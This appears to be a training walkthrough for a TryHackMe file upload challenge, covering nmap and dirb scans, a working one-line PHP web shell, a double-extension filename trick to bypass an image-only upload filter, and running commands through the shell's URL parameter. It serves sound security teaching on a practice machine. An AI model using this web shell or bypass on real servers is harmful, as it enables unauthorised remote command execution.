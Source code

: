 # HackerFrogs AfterSchool Network Hacking Session 8
## Session Topic: File Upload Attacks /w TryHackMe
# Challenge 1: TryHackMe 25 Days of Cyber Security Room
## TryHackMe Link
https://tryhackme.com/room/learncyberin25days
### YouTube Walkthrough Link
N/A
### Method of Solve
* Step 1: Click on the Task 4 header in the TryHackMe page, then click on the green "Start Machine" button
* Step 2: go to the top of the webpage, and click on the "Start AttackBox" button
* Step 3: wait 2 minutes for the AttackBox to finish loading
* Step 4: after the AttackBox finishes loading, at the bottom-middle of the TryHackMe webpage click on the "View in full screen" button, which looks like two arrows pointing away from each other
* Step 5: in the AttackBox desktop, click on the terminal shortcut button (at the top of the desktop) to open a terminal
* Step 6: in the AttackBox desktop, click on the orange Firefox (at the top of the desktop) to open a web browser
## Part 1: Doing Initial Scans
We will simulate a typical network hacking exercise by doing Nmap and directory busting scans.
* Step 1: In the TryHackMe webpage, note the IP address in the Target Machine Information header. We'll refering to that as the `<IP_address>`
* Step 2: In the AttackBox terminal use the following command to scan the server with Nmap:
```
nmap -vv -sV -sC -T5 <IP_address>
```
The output lets us know that port 80, HTTP, unencrypted websites, are open on the server
* Step 3: Passed on the previous command, we can now do a directory busting attack to determine existing directories on the webserver with Dirb:
```
dirb http://<IP_address>
```
The output of this command lets us know that the /uploads directory exists on the webserver. We'll need this information for later
## Part 2: Investigating the webpage
In this section, we'll be looking at the webpage on the remote server we've been scanning
* Step 1: In the AttackBox web browser, navigate to the following URL:
http://<IP_address>
* Step 2: In the AttackBox web browser, add the following to the end of the URL
```
?id=ODIzODI5MTNiYmYw
```
We see here that there's an upload function the webpage
## Part 3: Attempting to upload an undisguised web shell file
In this section we will upload a webshell file to the remote server
* Step 1: Use the nano text editor to create a webshell file to upload to the server
```
nano webshell.php
```
* Step 2: Copy the following code and paste it into the text editor
```
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```
* Step 3: Save the file by using the `ctrl+x` keyboard shortcut, then `y`, then press the `enter` key
* Step 4: On the AttackBox web browser, click on the `Select` button, then select the `webshell.php file`, which should be in the /root directory, then click `open`
* Step 5: Confirm the upload by clicking on the `Submit` button
Note that the file was unable to be uploaded, because the app is expecting a picture file (jpg, png, gif, etc)
# Part 4: Modifying the webshell file to bypass the web app upload filter
In this section, we attempt to fool the web app into uploading our webshell file
* Step 1: In the AttackBox terminal, rename the webshell file with the following command
```
mv webshell.php webshell.jpg.php
```
This change to the name of the file could be enough to fool the app into uploading the file
* Step 2: On the AttackBox web browser, click on the `Select` button, then select the `webshell.php file`, which should be in the /root directory, then click `open`
* Step 3: Confirm the upload by clicking on the `Submit` button
This time, we've successfully uploaded the file
* Step 4: Recall the fact that the Dirb scan from earlier indicated an `/uploads` directory exists
# Part 5: Accessing and using the webshell
* Step 1: Navigate to the following endpoint in the app `/uploads/webshell.jpg.php`, as in http://<IP_address>/uploads/webshell.jpg.php
You should see a blank page. This is normal. We can run commands through the URL's parameters
* Step 2: On the end of the webpage's URL, add this to the end: `?cmd=whoami`
If the webshell is working, you should see the output `apache`
* Step 8: From here, we can run any commands we want on the uploaded webshell, substituting out `whoami` with any regular Linux command
